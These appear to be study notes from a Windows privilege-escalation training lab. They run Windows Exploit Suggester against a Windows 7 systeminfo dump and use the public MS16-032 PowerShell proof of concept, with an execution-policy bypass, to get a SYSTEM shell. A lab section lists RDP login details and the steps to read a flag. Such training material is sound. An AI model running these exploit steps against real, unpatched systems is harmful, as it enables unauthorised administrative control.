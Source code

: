 # Windows Desktop Versions

Windows 7 was made end-of-life on January 14, 2020

| Feature                       | Windows 7 | Windows 10 |
|-------------------------------|-----------|------------|
| Microsoft Password (MFA)      |           | X          |
| BitLocker                     | Partial   | X          |
| Credential Guard              |           | X          |
| Remote Credential Guard       |           | X          |
| Device Guard (code integrity) |           | X          |
| AppLocker                     | Partial   | X          |
| Windows Defender              | Partial   | X          |
| Control Flow Guard            |           | X          |

## Install Python Dependencies (local VM only)

```
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
cd setuptools-2.0/
sudo python2.7 setup.py install
sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
cd xlrd-1.0.0/
sudo python2.7 setup.py install
```

## Gathering Systeminfo Command Output

```
systeminfo

Host Name:                 WINLPE-WIN7
OS Name:                   Microsoft Windows 7 Professional
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          mrb3n
Registered Organization:
Product ID:                00371-222-9819843-86644
Original Install Date:     3/25/2021, 7:23:47 PM
System Boot Time:          5/13/2021, 5:14:12 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows

<SNIP>
```

## Updating the Local Microsoft Vulnerability Database

```
sudo python2.7 windows-exploit-suggester.py --update
```

## Running Windows Exploit Suggester

```
python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt 

...
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
...
```

## Exploiting MS16-032 with PowerShell PoC

https://www.exploit-db.com/exploits/39719

```
Set-ExecutionPolicy bypass -scope process

Import-Module .\Invoke-MS16-032.ps1

Invoke-MS16-032

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

```

```
C:\htb> whoami

nt authority\system
```

## LAB

xfreerdp /v:10.129.136.237 /u:htb-student /p:HTB_@cademy_stdnt!

cd c:\Tools
Set-ExecutionPolicy bypass -scope process

Import-Module .\Invoke-MS16-032.ps1

Invoke-MS16-032

type c:\Users\Administrator\Desktop\flag.txt


